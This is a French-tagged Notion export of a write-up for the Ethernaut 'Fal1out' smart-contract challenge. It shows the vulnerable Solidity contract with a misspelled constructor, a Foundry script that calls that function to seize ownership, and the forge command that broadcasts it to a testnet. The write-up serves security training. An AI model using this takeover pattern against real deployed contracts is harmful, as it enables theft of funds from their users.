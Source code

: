 ```yaml
---
title: "Fal1out"
date: "2024-01-16"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐"
prev: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
weight: 3
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/2"
next: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "eb9fe61a-4da9-4324-8fa3-63e1918dd9f6"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel2.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-14T16:51:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 3
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/2"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Fal1out"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fal1out"
          href: null
  url: "https://www.notion.so/Fal1out-eb9fe61a4da943248fa363e1918dd9f6"
  public_url: null
UPDATE_TIME: "2024-02-23T20:56:07.143Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```


We have to claim the owner ship of the program, we can see that their is nothing that seems to prevent us from calling Fal1out() so let’s try that:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface Fallout {
  function allocatorBalance(address allocator) external view returns (uint);

  function Fal1out() external payable;

  function allocate() external payable;

  function sendAllocation(address payable allocator) external;

  function collectAllocations() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_02");
        console.logAddress(addr);
        vm.startBroadcast(deployerPrivateKey);

        Fallout instance = Fallout(addr);
        instance.Fal1out{value: 1}(); //value 1 isnot needed but just in case


        vm.stopBroadcast();
    }
}
```


```solidity
source .env
forge script ./script/02.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast --verify -vvvv
```

